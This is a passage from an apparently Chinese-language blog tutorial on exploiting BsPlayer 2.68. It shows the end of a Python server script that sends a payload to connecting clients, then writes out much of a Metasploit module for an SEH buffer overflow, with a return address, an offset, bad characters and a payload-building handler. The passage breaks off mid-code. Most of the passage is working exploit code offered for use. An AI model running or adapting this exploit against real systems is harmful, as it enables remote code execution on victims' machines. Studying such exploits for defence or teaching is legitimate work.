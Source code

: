 ```
c.close()
c, addr = s.accept()        # Establish connection with client.
# Sending the m3u file so we can reconnect to our server to send both the flv file and later the payload.
print(('[*] Sending the payload second time', addr))
c.recv(1024)
c.send(response)
c.close()
s.close()
```



由此脚本我们可以得出几个重要的信息：

![img](https://img-blog.csdnimg.cn/20190117181117230.png)

由此，我们就可以编写渗透模块了。

**注意：在当前场景中，需要目标计算机主动来连接我们的渗透服务器，而不是我们去连接目标服务器。因此我们的渗透服务器必须时刻对即将到来的连接处于监听状态。当收到目标请求之后，要向其发送恶意的内容。**

## 创建Metasploit渗透脚本bsplayer_attack_by_binghe.rb

```
##
# Author 冰河
# Date 2019-01-17
# Description Metasploit渗透 Bsplayer V2.68
#
# 在当前场景中，需要目标计算机主动来连接我们的渗透服务器，而不是我们去连接目标服务器。
# 因此我们的渗透服务器必须时刻对即将到来的连接处于监听状态。当收到目标请求之后，要向
# 其发送恶意的内容。
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking
  
  include Msf::Exploit::Remote::TcpServer
  
  def initialize(info = {})
    super(update_info(info,
      'Name'              => "BsPlayer 2.68 SEH Overflow Exploit",
      'Description'       => %q{
          Here's an example of server Based Exploit
      },
      'Author'            => ['binghe'],
      'Platform'          => 'Windows',
      'Targets'           => 
        [
          ['Generic', {'Ret'  => 0x0000583b, 'Offset' => 2048}],
        ],
      'Payload'           =>
        {
          'BadChars'      => "\x00\x0a\x20\x0d"
        },
      'DisclosureDate'    => "2017-01-17",
      'DefaultTarget'     => 0))
   end
   
  def on_client_connect(client)
    return if((p = regenerate_payload(client)) == nil)
    print_status("Client Connected")
    sploit = make_nops(target['Offset'])
```